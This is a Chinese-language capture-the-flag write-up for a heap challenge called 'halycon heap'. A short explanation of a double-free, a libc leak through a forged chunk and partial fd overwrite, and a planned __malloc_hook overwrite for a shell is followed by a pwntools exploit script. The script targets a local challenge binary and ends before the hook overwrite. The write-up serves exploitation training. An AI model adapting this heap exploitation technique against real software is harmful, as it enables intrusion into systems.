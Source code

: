 ### halycon heap

这道题漏洞主要是double free
泄露libc做了一个简单的堆排布，伪造了个堆头来free得到libc，再show出来，主要是通过覆盖低位fd来实现任意地址分配，分配在与1号堆块头前0x10大小的地方，然后再free掉1，得到libc在7号堆块，再show出来，有了libc之后，我们就double free覆盖malloc_hook来getshell就行了

详细脚本如下：

```
from pwn import *

#context.log_level = 'debug'
p = process("./halcon_heap")
elf = ELF("./halcon_heap")
libc = ELF("./libc.so.6")

def add(size, cont):
	p.recvuntil(">")
	p.sendline(str(1))
	p.sendlineafter("Enter the size of your deet:", str(size))
	p.sendafter("Enter your deet:", cont)

def show(index):
	p.recvuntil(">")
	p.sendline(str(2))
	p.recvuntil("Which deet would you like to view?")
	p.recv()
	p.sendline(str(index))


def delete(index):
	p.recvuntil(">")
	p.sendline(str(3))
	p.sendlineafter("Which deet would you like to brutally destroy off the face of the earth?", str(index))

add(0x20, 'a'*16 + p64(0)+p64(0x31)) #0
add(0x20, 'bbbbb') #1
add(0x40, 'ccccc') #2
add(0x60, (p64(0)+p64(0x21)+p64(0)*2)*2) #3
delete(0)
delete(1)
show(1)
heap_addr = u64(p.recv(8))
print hex(heap_addr)

pause()
delete(0)
add(0x20, '\x20') #4 - 0 # overlap with 7
add(0x20, 'ddddd') #5 - 1
add(0x20, 'eeeee') #6 - 0
add(0x20, p64(0)+p64(0x91)) #7 (0~1)

delete(1)

show(7)
p.recv(24)
libc_base = u64(p.recv(8)) - 88 -0x3c4b20
print hex(libc_base)
#print hex(libc.symbols['main_arena'])

malloc_hook = libc.symbols['__malloc_hook'] + libc_base

add(0x60, 'f'*8) #8
```